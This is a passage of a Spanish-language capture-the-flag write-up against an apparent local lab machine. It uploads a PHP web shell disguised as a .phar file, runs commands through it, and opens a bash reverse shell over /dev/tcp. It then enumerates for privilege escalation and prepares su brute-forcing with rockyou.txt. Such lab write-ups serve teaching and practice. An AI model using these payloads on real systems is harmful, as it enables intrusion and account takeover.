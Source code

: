 Logramos cargar un archivos con extension: **( phar )**
```bash
Content-Disposition: form-data; name="archivo"; filename="cmd.phar"
Content-Type: application/x-php

<?php
  system($_GET["cmd"]);
?>
```

Ganando acceso a la maquina:
```bash
http://172.17.0.2/uploads/ # Aqui se cargara nuestro archivo.
```

Explotacion:
```bash
# Comandos para explotación
172.17.0.2/uploads/cmd.phar?cmd=whoami
```
### Intrusion
```bash
# Reverse shell o acceso inicial
http://172.17.0.2/uploads/cmd.phar?cmd=bash -c 'exec bash -i %26>/dev/tcp/IP/PORT <%261'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
sudo -l # No encontramos nada
find / -perm -4000 2>/dev/null # No encontramos nada
getcap -r / 2>/dev/null # No encontramos nada
contrab -l # No encontramos nada
```
Despues de realizar una enumeracion del sistema no encontramos nada critico, tendremos que aplicar fuerza bruta para los usuarios del sistema
Para ello usaremos una herrmienta que nos permite realizar fuerza bruta **( Linux-Su-Force.sh )**

Al final tendremos estas dos herramientas que trasnferiremos al la maquina:
```bash
cp /usr/share/wordlists/rockyou.txt . # nos creamos una copia de este diccionario
```

```bash
rockyou.txt Linux-Su-Force.sh
```

```python
# Montamos un servidor para poder transferirnos este herramienta a la maquina
python3 -m http.server 80
```
